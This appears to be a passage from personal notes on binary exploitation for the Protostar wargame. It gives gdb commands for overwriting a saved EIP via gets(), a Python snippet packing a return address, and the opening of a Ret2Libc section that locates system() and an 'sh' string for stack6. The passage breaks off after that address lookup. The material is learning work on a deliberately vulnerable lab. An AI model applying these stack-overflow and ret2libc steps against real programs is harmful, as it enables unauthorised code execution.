 	Here I set a `breakpoint`right after a call to `<gets@plt>` , after filling the buffer we can see that the `saved eip` has been overwritten with `CCCC` (`0x43434343`)

- Get raw bytes from a number

	```python
	esp = 0xbffff78c
	margin = 150
	eip = struct.pack("I", esp + margin)
	print eip
	```

- Get address of a function (e.g. `system`)

	```
	p system
	```
	
- Change address value in `gdb`:

- ```
	set {int}0xbffff58c = 0x080484b4
	```
	
- See address of start/end of `heap` and other stuff.

	```
	info proc map
	```

- Give multiple arguments to program

	```
	./heap3 $(python -c 'print "arg1 arg2 arg3"')
	```

	

## `Basic attacks`

###  `Ret2Libc` `(opt/protostar/bin/stack6)`

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
0xb7ecffb0 <------- ADDRESS OF system()

(gdb) find &system,+9999999,"sh"
0xb7fb7a95
0xb7fb821d
warning: Unable to access target memory at 0xb7fdb4a0, halting search.
2 patterns found.
(gdb) x/s 0xb7fb7a95
0xb7fb7a95:	 "getpwuid_r"
(gdb) x/s 0xb7fb821d
0xb7fb821d:	 "sh"

0xb7fb821d  <---- ADDRESS OF "sh"
```
